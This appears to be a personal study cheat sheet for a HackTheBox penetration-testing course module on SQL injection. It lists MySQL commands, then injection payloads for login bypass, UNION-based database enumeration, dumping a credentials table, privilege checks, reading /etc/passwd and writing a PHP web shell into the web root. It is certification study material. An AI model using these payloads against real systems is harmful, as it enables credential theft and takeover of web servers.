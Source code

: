 ```yaml
---
layout: post
title: "SQL Injection Fundementals"
date: 2025-04-22
categories: CheatSheets/CPTS
order: 13
---
```


## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

---

## SQL Injection

### Auth Bypass
| **Payload**                   | **Description**                        |
|-------------------------------|----------------------------------------|
| ``admin' OR '1'='1``          | Basic auth bypass                      |
| ``admin')-- -``               | Basic auth bypass (with SQL comment)   |
| **Reference**                 | [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |

### Union Injection
| **Payload**                                               | **Description**                                   |
|-----------------------------------------------------------|---------------------------------------------------|
| ``' ORDER BY 1-- -``                                      | Detect number of columns via `ORDER BY`           |
| ``cn' UNION SELECT 1,2,3-- -``                            | Test UNION injection, discover column count       |
| ``cn' UNION SELECT 1,@@version,3,4-- -``                  | Basic UNION injection showing MySQL version       |
| ``UNION SELECT username,2,3,4 FROM passwords-- -``        | Extract usernames (4‑column UNION)                |

### DB Enumeration
| **Payload**                                                                                              | **Description**                                  |
|----------------------------------------------------------------------------------------------------------|--------------------------------------------------|
| ``SELECT @@version``                                                                                     | Fingerprint MySQL and return version string      |
| ``SELECT SLEEP(5)``                                                                                      | Fingerprint MySQL via time delay                 |
| ``cn' UNION SELECT 1,database(),2,3-- -``                                                                 | Retrieve current database name                   |
| ``cn' UNION SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -``                              | List all databases                               |
| ``cn' UNION SELECT 1,table_name,table_schema,4 FROM information_schema.tables WHERE table_schema='dev'-- -`` | List tables in the `dev` database                |
| ``cn' UNION SELECT 1,column_name,table_name,table_schema FROM information_schema.columns WHERE table_name='credentials'-- -`` | List columns in the `credentials` table          |
| ``cn' UNION SELECT 1,username,password,4 FROM dev.credentials-- -``                                      | Dump all rows from `dev.credentials`             |

### Privileges
| **Payload**                                                                                                              | **Description**                                              |
|--------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------|
| ``cn' UNION SELECT 1,user(),3,4-- -``                                                                                     | Show current MySQL user                                       |
| ``cn' UNION SELECT 1,super_priv,3,4 FROM mysql.user WHERE user='root'-- -``                                              | Check if `root` has SUPER privileges                         |
| ``cn' UNION SELECT 1,grantee,privilege_type,is_grantable FROM information_schema.user_privileges WHERE user='root'-- -`` | List all privileges granted to `root`                        |
| ``cn' UNION SELECT 1,variable_name,variable_value,4 FROM information_schema.global_variables WHERE variable_name='secure_file_priv'-- -`` | Show MySQL’s secure_file_priv setting (allowed file paths)   |

### File Injection
| **Payload**                                                                                                                          | **Description**                         |
|--------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------|
| ``cn' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4-- -``                                                                               | Read the `/etc/passwd` file             |
| ``SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'``                                                        | Write a string into a server‑side file  |
| ``cn' UNION SELECT '', '<?php system($_REQUEST[0]); ?>', '', '' INTO OUTFILE '/var/www/html/shell.php'-- -``                           | Drop a PHP web shell into the web root  |

---